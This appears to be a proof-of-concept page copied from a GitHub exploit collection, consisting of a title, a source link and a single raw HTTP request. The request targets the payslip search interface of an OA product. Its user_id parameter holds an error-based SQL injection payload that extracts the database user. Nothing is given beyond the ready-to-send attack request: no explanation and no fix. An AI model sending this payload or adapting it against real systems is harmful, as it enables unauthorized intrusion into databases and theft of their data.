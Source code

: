 # szt_payslip_sqli

from: https://github.com/wy876/POC/blob/main/%E6%95%B0%E5%AD%97%E9%80%9AOA-%E6%99%BA%E6%85%A7%E6%94%BF%E5%8A%A1%E6%8E%A5%E5%8F%A3payslip%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

```
GET /payslip/search/index/userid/time/time?PayslipUser[user_id]=(SELECT 4050 FROM(SELECT COUNT(*),CONCAT((mid((ifnull(cast(current_user() as nchar),0x20)),1,54)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: GOASESSID=i589f58naalabocmbidup7edl3
Upgrade-Insecure-Requests: 1
```
